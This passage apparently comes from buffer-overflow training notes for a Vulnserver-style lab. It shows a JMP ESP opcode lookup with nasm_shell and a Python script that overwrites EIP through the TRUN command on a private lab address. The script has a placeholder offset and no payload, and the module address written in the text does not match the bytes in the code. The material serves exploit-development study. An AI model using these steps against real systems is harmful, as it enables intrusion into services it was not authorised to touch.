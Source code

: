 ```
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

nasm > JMP ESP
00000000   FFE4           jmp esp 
```

![[Running Mona Scripts.png]]
From this we can use Module 626011af For this Attack

#### Fuzzing Using Mona.py 626011af Module
```python
#!/usr/bin/python 
import sys, socket

shellcode = "A" * <EIP Offset> + "\xaf\x11\x50\x62"

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	s.connect(('192.168.1.35',9999)) 
	
	s.send(('TRUN /.:/' + shellcode)) 
	s.close()
except:
	print ("Error Connecting to Server") 
	sys.exit()
```
